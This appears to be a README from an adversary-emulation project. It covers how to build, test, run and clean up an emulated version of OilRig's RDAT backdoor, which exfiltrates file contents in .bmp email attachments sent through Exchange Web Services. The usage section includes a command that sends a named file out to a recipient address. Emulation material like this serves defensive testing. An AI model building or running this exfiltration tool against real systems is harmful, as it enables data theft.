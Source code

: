 # RDAT

RDAT is a backdoor used by the suspected Iranian threat group OilRig. RDAT was originally identified in 2017 and targeted companies in the telecommunications sector.[1][2]
This emulated version of RDAT will leverage the EWS API by loading Microsoft.Exchange.WebServices.dll. It will connect to the EWS email server and send emails with a .bmp that contains chunks of data from given file to be exfiltrated.

Microsoft.Exchange.WebServices.dll is not included by default in this repository. Follow Microsoft's [documentation](https://docs.microsoft.com/en-us/exchange/client-developer/exchange-web-services/how-to-reference-the-ews-managed-api-assembly) for retrieving the DLL from an existing installation of Exchange or for using the open source EWS Managed API. The DLL should be placed in `Resources/RDAT` for building the RDAT executable.

**NOTE:** Tests and usage assume an Exchange server has been configured for the environment and
should be run from a domain joined Windows host with network access to the Exchange server. This
implementation also expects a username and passowrd for a configured user that can authenticate to
the Exchange server.

# Build Instructions

## Windows

### Download .NET 6.0 SDK x64 for Windows
https://dotnet.microsoft.com/en-us/download/dotnet/6.0

### Build EXE
Open a command (cmd.exe) prompt
```
# from \Resources\RDAT\

dotnet publish -c Release -r win10-x64 -p:PublishSingleFile=true /p:DebugType=None /p:DebugSymbols=false
cd .\bin\Release\net6.0\win10-x64\publish\
```

**The compiled binary should be copied to Resources\payloads\TwoFace for Step 8 and 10.**

## Test Instructions

Open a command (cmd.exe) prompt
```
# from \Resources\RDAT\

powershell.exe .\test.ps1 [user] [password] [domain] [server_address] # Order has to be exact
# Example: powershell.exe .\test.ps1 user_account 1234567 domain.com 10.0.0.1
```

## Usage Examples
Go to running directory of RDAT.exe
```
.\RDAT.exe --help
.\RDAT.exe --path="C:\Users\Public\FileToBeExfiltrated.txt" --from="user_account@domain.com" --password="1234567" --to="recipient@domain.com" --server="10.0.0.1" --chunksize="20000" 
```

## Cleanup Instructions
Go to running directory of RDAT.exe
```
rm .\RDAT.exe
rm .\guest.bmp
rm .\guest.bmp.tmp
```

## CTI Evidence

[1] https://attack.mitre.org/software/S0495/
[2] https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
